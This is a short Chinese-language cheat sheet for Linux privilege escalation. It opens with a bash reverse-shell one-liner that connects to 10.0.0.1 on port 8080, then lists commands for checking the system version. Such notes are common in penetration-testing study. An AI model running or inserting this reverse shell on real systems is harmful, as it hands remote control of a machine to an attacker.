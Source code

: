 ### GUN Linux 提权笔记

##### Shell反弹
```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```


查看系统版本
`uname -a`

`cat /etc/*-release`

`cat /etc/issue`

